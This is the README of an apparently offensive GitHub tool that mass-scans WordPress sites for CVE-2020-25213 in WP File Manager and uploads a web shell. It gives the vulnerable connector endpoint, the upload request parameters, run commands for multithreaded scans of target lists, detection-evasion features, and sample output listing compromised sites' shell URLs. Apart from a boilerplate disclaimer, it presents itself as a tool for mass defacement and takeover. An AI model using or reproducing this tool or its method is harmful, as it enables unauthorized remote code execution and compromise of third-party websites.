

<div align="center">

<!-- ═══════════════════════════════════════════════════════════════ -->
<!--         WP FILE MANAGER — AUTO UPLOAD SHELL — README            -->
<!-- ═══════════════════════════════════════════════════════════════ -->

<!-- ANIMATED HEADER -->


<!-- BADGES -->
<p>
  
  
  
  
  
</p>

<!-- ASCII BANNER -->
```
██╗    ██╗██████╗       ███████╗██╗██╗     ███████╗███╗   ███╗ █████╗ ███╗   ██╗ █████╗  ██████╗ ███████╗██████╗ 
██║    ██║██╔══██╗      ██╔════╝██║██║     ██╔════╝████╗ ████║██╔══██╗████╗  ██║██╔══██╗██╔════╝ ██╔════╝██╔══██╗
██║ █╗ ██║██████╔╝█████╗█████╗  ██║██║     █████╗  ██╔████╔██║███████║██╔██╗ ██║███████║██║  ███╗█████╗  ██████╔╝
██║███╗██║██╔═══╝ ╚════╝██╔══╝  ██║██║     ██╔══╝  ██║╚██╔╝██║██╔══██║██║╚██╗██║██╔══██║██║   ██║██╔══╝  ██╔══██╗
╚███╔███╔╝██║           ██║     ██║███████╗███████╗██║ ╚═╝ ██║██║  ██║██║ ╚████║██║  ██║╚██████╔╝███████╗██║  ██║
 ╚══╝╚══╝ ╚═╝           ╚═╝     ╚═╝╚══════╝╚══════╝╚═╝     ╚═╝╚═╝  ╚═╝╚═╝  ╚═══╝╚═╝  ╚═╝ ╚═════╝ ╚══════╝╚═╝  ╚═╝
```

**WP File Manager — Mass Exploit + UnknownSec Shell Upload**

</div>

---

## 📖 Table of Contents

- [🔥 Overview](#-overview)
- [🎯 Vulnerability](#-vulnerability)
- [✨ Features](#-features)
- [📦 Installation](#-installation)
- [🚀 Usage](#-usage)
- [📂 Project Structure](#-project-structure)
- [🛠️ How It Works](#️-how-it-works)
- [📊 Output Format](#-output-format)
- [🎨 Color Scheme](#-color-scheme)
- [⚠️ Disclaimer](#️-disclaimer)
- [📡 Connect](#-connect)

---

## 🔥 Overview

**WP File Manager Auto Upload Shell** is a mass exploitation tool that detects and exploits **CVE-2020-25213** — an unauthenticated arbitrary file upload vulnerability in the **WP File Manager** WordPress plugin (versions **≤ 6.8**), leading to **Remote Code Execution** via the `connector.minimal.php` endpoint.

The tool scans a list of WordPress targets, fingerprints the plugin version, and drops an **UnknownSec File Manager shell** if the target is vulnerable.

---

## 🎯 Vulnerability

<table align="center">
  <thead>
    <tr>
      <th>🔴 CVE</th>
      <th>📦 Plugin</th>
      <th>⚡ Type</th>
      <th>💯 CVSS</th>
      <th>🎯 Impact</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td align="center"><b>CVE-2020-25213</b></td>
      <td align="center">WP File Manager ≤ 6.8</td>
      <td align="center">Arbitrary File Upload</td>
      <td align="center"></td>
      <td align="center">Unauthenticated RCE</td>
    </tr>
  </tbody>
</table>

### 🔍 Technical Details

The vulnerability resides in the **elFinder connector** bundled with the plugin:

```
/wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php
```

The endpoint accepts file uploads **without authentication** when the plugin ships with the default `connector.minimal.php` configuration. The `cmd=upload` parameter combined with the `upload[]` multipart field writes arbitrary PHP files to `lib/files/`.

---

## ✨ Features

<div align="center">

<table>
  <tr>
    <td align="center" width="25%">
      <h3>🔍 Detection</h3>
      <ul align="left">
        <li>Deep WordPress fingerprinting</li>
        <li>Multi-signal version check</li>
        <li><code>readme.txt</code> parsing</li>
        <li>Connector endpoint probe</li>
      </ul>
    </td>
    <td align="center" width="25%">
      <h3>⚡ Exploit</h3>
      <ul align="left">
        <li><code>connector.minimal.php</code> upload</li>
        <li><code>admin-ajax.php</code> fallback</li>
        <li>5 candidate shell paths</li>
        <li>Strict marker verification</li>
      </ul>
    </td>
    <td align="center" width="25%">
      <h3>💀 Post-Exploit</h3>
      <ul align="left">
        <li>UnknownSec shell upload</li>
        <li>RCE verification</li>
        <li>Auto shell URL save</li>
        <li>Live counter stats</li>
      </ul>
    </td>
    <td align="center" width="25%">
      <h3>🎭 OpSec</h3>
      <ul align="left">
        <li>Randomized Chrome UAs</li>
        <li>Random Referer headers</li>
        <li>Multithreaded (60+)</li>
        <li>TLS bypass</li>
      </ul>
    </td>
  </tr>
</table>

</div>

---

## 📦 Installation

### Prerequisites

```bash
Python 3.8+
pip (Python package manager)
```

### Quick Install

```bash
# Clone the repository
git clone https://github.com/HackfutSecRoot/wordpress-auto-upload-shell.git
cd wordpress-auto-upload-shell

# Install dependencies
pip install -r requirements.txt
```

### requirements.txt

```txt
requests>=2.28.0
urllib3>=1.26.0
colorama>=0.4.6
```

### Shell File

⚠️ **Place your `file.php` (UnknownSec shell) in the same directory as the script.**

```
wordpress-auto-upload-shell/
├── wpfm_exploit.py     ← the script
├── file.php            ← ⚠️ YOUR SHELL HERE
└── targets.txt
```

If `file.php` is missing, a minimal fallback is auto-generated.

---

## 🚀 Usage

### 🔴 Mass Scan

```bash
python wpfm_exploit.py -l targets.txt -t 60
```

### 🟢 Single Target

```bash
python wpfm_exploit.py -u http://target.com
```

### 🔵 Verbose Mode

```bash
python wpfm_exploit.py -u http://target.com -v
```

### Arguments

| Argument | Description | Default |
|----------|-------------|---------|
| `-u, --url` | Single target URL | — |
| `-l, --list` | File with targets (one per line) | — |
| `-t, --threads` | Number of concurrent threads | `60` |
| `--timeout` | Per-request timeout (seconds) | `15` |
| `-o, --output` | Output directory | `./wpfm_RESULTS` |
| `-v, --verbose` | Verbose output | `False` |

### targets.txt Format

```
http://target1.com
https://target2.com
target3.com
# comment (ignored)
```

---

## 📂 Project Structure

```
wordpress-auto-upload-shell/
│
├── 📄 README.md                    # This file
├── 📄 requirements.txt             # Python dependencies
├── 📄 LICENSE                      # MIT License
│
├── 🔴 wpfm_exploit.py              # Main exploit script
├── 💀 file.php                     # UnknownSec shell (next to script)
├── 📄 targets.txt                  # Target list
│
└── 📁 wpfm_RESULTS/                # Auto-generated
    └── shells.txt                  # Uploaded shell URLs
```

---

## 🛠️ How It Works

### 📊 Exploit Flow



### 🔬 Step-by-Step

1. **WordPress Detection**
   - Scans homepage for `wp-content/`, `wp-includes/`, `wp-json`
   - Probes `/wp-login.php`, `/wp-admin/`, `/wp-json/`, `/xmlrpc.php`

2. **WP File Manager Detection**
   - Reads `/wp-content/plugins/wp-file-manager/readme.txt`
   - Extracts `Stable tag: X.Y`
   - Falls back to probing `connector.minimal.php` if readme absent

3. **Version Check**
   - Parses version as float
   - Rejects `>= 7.0` (patched)

4. **Shell Upload**
   - **Vector 1**: POST to `connector.minimal.php` with `cmd=upload&upload[]=@file.php`
   - **Vector 2**: POST to `admin-ajax.php` with `action=mk_file_folder_manager`

5. **Verification**
   - GET on 5 candidate paths
   - Checks for marker: `UnknownSec Shell` / `shell bypass 403` / `mass deface`
   - Only counts as success if marker found

---

## 📊 Output Format

### Console Output

```
[14:32:15] - http://target.com/wp-content/plugins/wp-file-manager/lib/files/shell_abc123.php - [Shell Uploaded Successfully]
[14:32:16] - http://target2.com - [Upload Failed]
[14:32:17] - http://target3.com - [FileManager Not Installed]
[14:32:18] - http://target4.com - [Not vuln]
```

### shells.txt

```
http://target.com/wp-content/plugins/wp-file-manager/lib/files/shell_abc123.php
http://target2.com/wp-content/uploads/shell_xyz789.php
```

### Final Summary

```
======================================================================
FINAL SUMMARY
======================================================================
  Total targets      : 150
  Shells uploaded    : 12
  Failed             : 138
  Errors             : 0
  Duration           : 45.23s
  Shells saved to    : ./wpfm_RESULTS/shells.txt

VULNERABLE TARGETS:
  [+] http://target.com (v6.8) -> http://target.com/wp-content/plugins/wp-file-manager/lib/files/shell_abc123.php
  [+] http://target2.com (v6.5) -> http://target2.com/wp-content/plugins/wp-file-manager/lib/files/shell_xyz789.php
```

---

## 🎨 Color Scheme

| Color | ANSI Code | Usage |
|-------|-----------|-------|
| 🟢 **Green Bold** | `\033[1;32m` | `Shell Uploaded Successfully` |
| 🔴 **Red Bold** | `\033[1;31m` | `Upload Failed`, `Not vuln`, `FileManager Not Installed` |
| 🟡 **Light Yellow Bold** | `\033[1;33m` | Timestamp `[14:32:15]` |
| ⚪ **Light White Bold** | `\033[1;37m` | Target URLs and paths |

---

## 🧪 Example Run

```bash
$ python wpfm_exploit.py -l targets.txt -t 60

██╗    ██╗██████╗       ███████╗██╗██╗     ███████╗███╗   ███╗ █████╗ ███╗   ██╗ █████╗  ██████╗ ███████╗██████╗ 
...banner...

◆ This Tool is Designed to identify vulnerabilities in WordPress installations.
◆ Specifically targeting the WP File Manager plugin (CVE-2020-25213 and others).
◆ It checks for known vulnerabilities and attempts to upload a shell if a vulnerable version is detected.

[14:32:15] - Targets: 150 | Threads: 60 | Timeout: 15s

[14:32:16] - http://target1.com/wp-content/plugins/wp-file-manager/lib/files/shell_abc123.php - [Shell Uploaded Successfully]
[14:32:17] - http://target2.com - [FileManager Not Installed]
[14:32:18] - http://target3.com - [Not vuln]
[14:32:19] - http://target4.com - [Upload Failed]
```

---

## ⚠️ Disclaimer

<div align="center">

```
╔══════════════════════════════════════════════════════════════════╗
║                                                                  ║
║   ☠️  FOR EDUCATIONAL AND AUTHORIZED SECURITY TESTING ONLY  ☠️   ║
║                                                                  ║
║   • All tools are provided AS-IS for LAB use                    ║
║   • Use ONLY on systems you own or have WRITTEN permission       ║
║   • Unauthorized access is ILLEGAL and punishable by law         ║
║   • The author is NOT responsible for any misuse                 ║
║                                                                  ║
║   "With great power comes great responsibility."                 ║
║                                                                  ║
╚══════════════════════════════════════════════════════════════════╝
```

</div>

---

## 📡 Connect

<div align="center">

### 💀 HackfutSecRoot

<p>
  <a href="https://github.com/HackfutSecRoot">
    
  </a>
  <a href="https://t.me/+gsrpvshwGUc5MzI0">
    
  </a>
  <a href="https://pastebin.com/u/hackfut">
    
  </a>
</p>

### 📢 Channels

<p>
  <a href="https://t.me/+gsrpvshwGUc5MzI0">
    
  </a>
  <a href="https://t.me/LinxProdXs404">
    
  </a>
  <a href="https://t.me/ulp_Linxprodx">
    
  </a>
</p>

### 📚 Resources

<p>
  <a href="https://pastebin.com/u/hackfut">
    
  </a>
</p>

</div>

---

## 📜 License

Distributed under the **MIT License**. See `LICENSE` for more information.

---

<div align="center">

<!-- VISITOR COUNTER -->


<!-- FOOTER TYPING -->
<p>
  
</p>

**💀 Made with blood, sweat, and 0days 💀**

</div>
